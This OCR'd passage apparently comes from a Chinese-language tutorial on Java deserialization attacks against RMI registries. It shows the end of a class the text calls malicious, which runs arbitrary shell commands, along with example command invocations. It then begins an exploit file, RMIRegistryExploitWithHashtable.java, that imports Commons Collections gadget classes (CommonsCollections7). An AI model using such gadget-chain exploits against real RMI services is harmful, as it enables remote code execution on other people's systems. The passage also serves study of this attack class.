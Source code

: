 ```java
     * 这个贴子的回答及讨论都应该看一下，从下往上看
     */
    private static Throwable PrivateGetRootCause ( Throwable e )
    {
        Throwable cause = null;
        Throwable ret   = e;

        while ( null != ( cause = ret.getCause() ) && ( ret != cause ) )
        {
            ret = cause;
        }
        return ret;
    }

    /*
     * 方便测试而存在
     */
    public static void main ( String[] argv ) throws Exception
    {
        try
        {
            Operator( argv );
        }
        catch ( Exception e )
        {
            System.out.print( PrivateGetRootCause( e ).getLocalizedMessage() );
        }
    }
}
```

DoSomething是恶意类，可以通过构造函数或成员函数Operator()执行恶意代码。通
过opnum机制保持接口向后兼容性，将来扩展其他功能时，不影响之前的opnum。此为
框架示例代码，未做容错处理。

$ java DoSomething 1 "uname -a"
$ java DoSomething 1 "ifconfig -a"
$ java DoSomething 1 "ps -f -o pid,user,args"
$ java DoSomething 1 "ps -ef"
$ java DoSomething 1 "echo any > /tmp/some"
$ java DoSomething 1 "ls -l nonexist"

14.2) RMIRegistryExploitWithHashtable.java

```java
/*
 * javac -encoding GBK -g -cp "commons-collections-3.1.jar:." RMIRegistryExploitWithHashtable.java
 */
import java.io.*;
import java.util.*;
import java.lang.reflect.*;
import java.rmi.Remote;
import java.rmi.registry.*;
import java.net.URL;
import java.net.URLClassLoader;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;

/*
 * 根据EvilURLClassLoaderWithConcurrentHashMap.java、
 * LazyMapExecWithHashtable.java、
 * EvilRMIRegistryClientWithBadAttributeValueExpException3.java修改而来，
 * 用到CommonsCollections7。
 */
```